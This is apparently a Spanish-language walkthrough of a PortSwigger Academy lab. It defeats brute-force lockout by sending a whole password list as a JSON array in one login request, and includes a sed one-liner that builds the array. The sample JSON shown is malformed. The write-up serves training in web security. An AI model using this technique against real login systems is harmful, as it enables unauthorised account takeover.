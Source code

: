 +++
author = "Alux"
title = "Portswigger Academy Learning Path: Authentication Lab 6"
date = "2021-11-21"
description = "Lab: Broken brute-force protection, multiple credentials per request"
tags = [
    "broken authentication",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Broken brute-force protection, multiple credentials per request

En este <cite>laboratorio[^1]</cite>la finalidad es ingresar con un usuario valido, como el que se nos indica que es `carlos` y se nos da el listado de contrasenas que podemos probar.

## Reconocimiento

Para resolver el ejercicio se nos da el listado de contrasenas con el que nos podemos autenticar con el usuario carlos, cuando tratamos de ingresar con el usuario se nos muestra una respuesta generica como la siguiente:

![Intruder inicio de sesion](login.png)

Pero al ver la peticion, vemos que la peticion hace uso de post en formato `json` de la siguiente manera:

```json
{
    "username":"carlos",
    "password":"test",
    "":""
}
```

## Explotacion

Ahora que sabemos esto, intentaremos inyectar muchas mas contrasenas en esta misma peticion para evitar el bloqueo al realizar demasiados intentos, debemos saber que para enviar multiples valores en json se deben de enviar dentro de corchetes de la siguiente manera:

```json
{
    "username":"carlos",
    [
        "valor1",
        "valor2",
        "valor3",
    ]
}
```
Para eso podemos usar el siguiente comando con `sed` para que de nuestra lista de contrasenas crear la estructura y automatizarlo:

```bash
$ sed 's/^/"/; s/$/",/' passwords.txt
"123456",
"password",
"12345678",
"qwerty",
"123456789",
"12345",
"1234",
"111111",
"1234567",
"dragon",
"123123",
"baseball",
"abc123",
"football",
"monkey",
"letmein",
"shadow",
"master",
"666666",
"qwertyuiop",
"123321",
"mustang",
"1234567890",
"michael",
...
```

Ahora los enviamos por `repeater` de la siguiente manera para poder iniciar sesion, lo que nos devuelve una respuesta 302 por lo que ya contamos con una contrasena valida enviada en formato `json`.

![Envio de peticiones con repeater](repeater.png)

Y con eso ya hemos ingresado al usuario de carlos:

![Laboratorio resuelto](resuelto.png)

Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request)